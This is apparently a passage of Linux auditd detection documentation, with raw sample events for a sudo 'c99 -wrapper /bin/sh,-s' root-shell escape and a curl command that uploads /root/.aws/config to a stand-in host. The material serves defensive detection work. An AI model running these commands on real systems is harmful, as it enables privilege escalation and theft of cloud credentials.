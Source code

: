 ```
type=SYSCALL msg=audit(03/28/2023 13:05:44.387:4960) : arch=x86_64 syscall=execve success=yes exit=0 a0=0x562f730c1248 a1=0x562f730d3258 a2=0x562f730e6fc0 a3=0x0 items=3 ppid=14900 pid=14902 auid=test-2 uid=root gid=root euid=root suid=root fsuid=root egid=root sgid=root fsgid=root tty=pts1 ses=9 comm=c99 exe=/usr/bin/bash subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 key=c89_priv_escalation 
type=EXECVE msg=audit(03/28/2023 13:05:44.387:4960) : argc=5 a0=/bin/sh a1=/bin/c99 a2=-wrapper a3=/bin/sh,-s a4=. 
type=PATH msg=audit(03/28/2023 13:05:44.387:4960) : item=0 name=/bin/c99 inode=101123553 dev=fd:00 mode=file,755 ouid=root ogid=root rdev=00:00 obj=system_u:object_r:bin_t:s0 objtype=NORMAL cap_fp=none cap_fi=none cap_fe=0 cap_fver=0 
type=PROCTITLE msg=audit(03/28/2023 13:05:44.387:4960) : proctitle=/bin/sh /bin/c99 -wrapper /bin/sh,-s . 
type=USER_CMD msg=audit(03/28/2023 13:05:44.376:4957) : pid=14900 uid=test-2 auid=test-2 ses=9 subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 msg='cwd=/home/test-2 cmd=c99 -wrapper /bin/sh,-s . terminal=pts/1 res=success' 
type=USER_CMD msg=audit(03/28/2023 13:05:08.025:4574) : pid=14752 uid=test-2 auid=test-2 ses=9 subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 msg='cwd=/home/test-2 cmd=c99 -wrapper /bin/sh,-s . terminal=pts/1 res=success' 
```


### Linux Curl Upload File

Datamodel: processes
Auditd config:   
CIM Mapping: 
Search:  
Limitations:   
Sample events:    

```
type=SYSCALL msg=audit(03/28/2023 13:02:17.202:4520) : arch=x86_64 syscall=execve success=yes exit=0 a0=0x558c1a5b8248 a1=0x558c1a5ca258 a2=0x558c1a5defa0 a3=0x0 items=2 ppid=14537 pid=14541 auid=test-2 uid=root gid=root euid=root suid=root fsuid=root egid=root sgid=root fsgid=root tty=pts1 ses=9 comm=curl exe=/usr/bin/curl subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 key=susp_activity 
type=EXECVE msg=audit(03/28/2023 13:02:17.202:4520) : argc=4 a0=curl a1=-F a2=userfile=@/root/.aws/config a3=http://example.com 
type=PATH msg=audit(03/28/2023 13:02:17.202:4520) : item=0 name=/bin/curl inode=100854595 dev=fd:00 mode=file,755 ouid=root ogid=root rdev=00:00 obj=system_u:object_r:bin_t:s0 objtype=NORMAL cap_fp=none cap_fi=none cap_fe=0 cap_fver=0 
type=PROCTITLE msg=audit(03/28/2023 13:02:17.202:4520) : proctitle=curl -F userfile=@/root/.aws/config http://example.com 
type=USER_CMD msg=audit(03/28/2023 13:02:17.202:4517) : pid=14537 uid=test-2 auid=test-2 ses=9 subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 msg='cwd=/home/test-2 cmd=curl -F userfile=@/root/.aws/config http://example.com terminal=pts/1 res=success' 
type=SYSCALL msg=audit(03/28/2023 13:02:10.222:4514) : arch=x86_64 syscall=execve success=yes exit=0 a0=0xf79aa0 a1=0xf786f0 a2=0xf4bee0 a3=0x7ffc8d8e4da0 items=2 ppid=1448 pid=14535 auid=test-2 uid=test-2 gid=test-2 euid=test-2 suid=test-2 fsuid=test-2 egid=test-2 sgid=test-2 fsgid=test-2 tty=pts1 ses=9 comm=curl exe=/usr/bin/curl subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 key=susp_activity 
type=EXECVE msg=audit(03/28/2023 13:02:10.222:4514) : argc=4 a0=curl a1=-F a2=userfile=@/root/.aws/config a3=http://example.com 
type=PATH msg=audit(03/28/2023 13:02:10.222:4514) : item=0 name=/usr/bin/curl inode=100854595 dev=fd:00 mode=file,755 ouid=root ogid=root rdev=00:00 obj=system_u:object_r:bin_t:s0 objtype=NORMAL cap_fp=none cap_fi=none cap_fe=0 cap_fver=0 
type=PROCTITLE msg=audit(03/28/2023 13:02:10.222:4514) : proctitle=curl -F userfile=@/root/.aws/config http://example.com 
type=SYSCALL msg=audit(03/28/2023 13:00:53.022:4477) : arch=x86_64 syscall=execve success=yes exit=0 a0=0xf79e20 a1=0xf792d0 a2=0xf4bee0 a3=0x7ffc8d8e4da0 items=2 ppid=1448 pid=14448 auid=test-2 uid=test-2 gid=test-2 euid=test-2 suid=test-2 fsuid=test-2 egid=test-2 sgid=test-2 fsgid=test-2 tty=pts1 ses=9 comm=curl exe=/usr/bin/curl subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 key=susp_activity 
```